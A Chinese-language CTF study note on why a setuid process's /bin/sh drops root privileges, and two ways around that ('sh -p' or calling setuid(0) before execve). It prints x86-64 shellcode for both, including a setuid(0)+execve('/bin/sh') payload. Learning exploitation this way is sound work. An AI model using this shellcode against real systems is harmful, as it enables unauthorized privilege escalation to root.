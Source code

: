 ## ⭐execve
execve(/bin/sh,0,0) 执行后没有得到 root shell 而只是得到了普通 shell
因为，shell 的保护机制：/bin/sh符号链接指向的是/bin/dash，dash和bash都有防御机制，当它们发现自己是在setuid进程中被执行的时候，就会euid为进程的真实用户id，放弃特权

- 相关概念
   - eUID（Effective User ID）：表示正在执行命令的进程的有效用户ID。
   - rUID（Real User ID）：表示正在执行命令的进程的真实用户ID。

一般这俩ID一样。但是如果程序是 suid 程序那么 ruid 保持原样， euid 是 root，程序以 root 权限执行。
在这种情况下，如果`/bin/sh`被设置为SUID权限（suid标志被设置，即eUID为0但rUID不为0），它将降低权限到rUID。也就是说，eUID将被设置为rUID的值，而rUID不为0。
为了禁用这种行为，可以使用`sh -p`命令来执行`/bin/sh`。`-p`选项将使`/bin/sh`保持SUID权限，而不会降低为rUID
综上有俩方式：

- 执行/bin/sh -p 参见[（二）笔记](https://www.yuque.com/hacker_muye.com/xwoluc/fsom3afzggf9pu0e)
- 执行/bin/sh 之前将 euid 置为 0
```
可以直接用shellcraft.execve('sh',['sh','-p'])来生成

/* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
                                         /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
                                            /* push argument array ['sh\x00', '-p\x00'] */
                                            /* push b'sh\x00-p\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi                                    /* 0 */
    push rsi                                       /* null terminate */
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi                            /* '-p\x00' */
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi                     /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx                  /* 0 */
                                          /* call execve() */
    push SYS_execve             /* 0x3b */
    pop rax
    syscall
```
```python
shellcode = """
    xor    rdi, rdi              # 设置 rdi 寄存器为 0，表示设置当前进程的有效用户 ID
    mov    eax, 0x69             # 将系统调用号 105 (setuid) 放入 eax 寄存器
    syscall                      # 执行系统调用，设置当前进程的有效用户 ID 为 0（root）
    
    mov    rax, 59               # 设置 rax 寄存器为 59，表示系统调用 execve
    lea    rdi, [rip+binsh]      # 将 /bin/sh 字符串地址放入 rdi 寄存器
    xor    rsi, rsi              # 将 rsi 寄存器置零
    xor    rdx, rdx              # 将 rdx 寄存器置零
    syscall                      # 执行系统调用，启动 /bin/sh

binsh:
    .string "/bin/sh"
"""
shellcode = asm(shellcode)
```